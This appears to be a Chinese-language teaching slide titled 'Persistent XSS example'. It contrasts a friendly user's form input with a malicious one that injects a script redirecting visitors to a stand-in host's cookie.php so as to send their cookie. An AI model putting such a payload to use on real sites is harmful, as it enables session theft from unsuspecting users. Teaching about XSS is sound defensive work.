

# 持久型XSS示例
下面蓝色部分表示用户通过表单填写的输入
一个友好的用户：
<span>今天心情不错</span>

一个恶意的用户：
<span><script>location.href=“http://test.com/c
ookie.php?c=document.cokie”</script></span>